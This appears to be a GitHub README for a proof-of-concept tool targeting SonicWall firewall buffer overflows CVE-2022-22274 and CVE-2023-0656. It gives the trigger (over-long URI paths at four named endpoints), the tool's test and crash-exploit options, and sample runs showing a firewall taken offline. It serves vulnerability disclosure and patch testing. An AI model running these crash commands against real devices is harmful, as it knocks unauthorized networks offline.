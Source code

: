 # SonicWall NGFW CVE-2022-22274 & CVE-2023-0656

![example gif](example.gif)

On March 24, 2022, SonicWall released an [advisory](https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2022-0003) with the following details:

> A Stack-based buffer overflow vulnerability in the SonicOS via HTTP request allows a remote unauthenticated attacker to cause Denial of Service (DoS) or potentially results in code execution in the firewall.

> NOTE: This vulnerability ONLY impacts the "web management" interface, the SonicOS SSLVPN interface is not impacted.

On March 2, 2023, SonicWall released another, similar, [advisory](https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2023-0004):

> A Stack-based buffer overflow vulnerability in the SonicOS allows a remote unauthenticated attacker to cause Denial of Service (DoS), which could cause an impacted firewall to crash.

> NOTE: This vulnerability ONLY impacts the "web management" interface, the SonicOS SSLVPN interface is not impacted.

Both issues are related to the same vulnerable code pattern and use the same exploit payload, but are triggered at different URI paths.

## Description

The buffer overflow is triggered via an HTTP request with a URI path longer than 1024 characters. CVE-2022-22274 can be exploited at `/resources/` or at the Advanced Threat Protection URI path (`/atp/` if enabled or `//` if disabled). CVE-2023-0656 can be exploited at `/stats/` or `/Security_Services`.

This repository contains a proof-of-concept script to test a target for exploitability at all four URI paths. It performs a safe test by default, but has the ability to exploit the bugs and crash the target as well.

*NOTE: In its default configuration, 3 consecutive crashes within a short period of time will cause SonicOS to reboot the device into debug mode and it will be unreachable until an administrator brings it back online. Use responsibly!*

## Usage

Install Python 3 and run `python -m pip install -y argparse`.

```
usage: poc.py [-h] [-t] [-x {1,2,3,4,5}] [-s] target

positional arguments:
  target                hostname[:port] (port defaults to 443)

options:
  -h, --help            show this help message and exit
  -t, --test            safely test for vulnerability (default action)
  -x {1,2,3,4,5}, --exploit {1,2,3,4,5}
                        exploit the target (trigger a crash). 1=/resources/ 2=// 3=/atp/ 4=/stats/ 5=/Security_Services
  -s, --skip-header-check
                        skip initial check for SonicWALL response header
```

## Examples

Test a vulnerable target:

```
$ ./poc.py 192.168.50.29
[*] Checking https://192.168.50.29:443
[+] Confirmed target is running SonicOS
[*] Testing CVE-2022-22274 at /resources/
[+] Target looks vulnerable! (redirected)
[*] Testing CVE-2022-22274 at //
[+] Target looks vulnerable! (redirected)
[*] Testing CVE-2022-22274 at /atp/
[-] Target does not appear to be affected (HTTP 404)
[*] Testing CVE-2023-0656 at /stats/
[+] Target looks vulnerable! (redirected)
[*] Testing CVE-2023-0656 at /Security_Services
[+] Target looks vulnerable! (redirected)
```

Exploit a vulnerable target:

```
$ ./poc.py -x 1 192.168.50.29
[*] Checking https://192.168.50.29:443
[+] Confirmed target is running SonicOS
[*] Triggering exploit at /resources/
[+] Exploit succeeded! (target unavailable)
```

Test and exploit a patched target:

```
$ ./poc.py -tx 4 192.168.50.31
[*] Checking https://192.168.50.31:443
[+] Confirmed target is running SonicOS
[*] Testing CVE-2022-22274 at /resources/
[-] Target appears to be patched (empty response)
[*] Testing CVE-2022-22274 at //
[-] Target appears to be patched (empty response)
[*] Testing CVE-2022-22274 at /atp/
[-] Target does not appear to be affected (HTTP 404)
[*] Testing CVE-2023-0656 at /stats/
[-] Target appears to be patched (empty response)
[*] Testing CVE-2023-0656 at /Security_Services
[-] Target appears to be patched (empty response)
[*] Triggering exploit at /stats/
[-] Exploit failed (target responded)
```

## License

This project is licensed under the [GNU GPL 3.0](LICENSE) license.
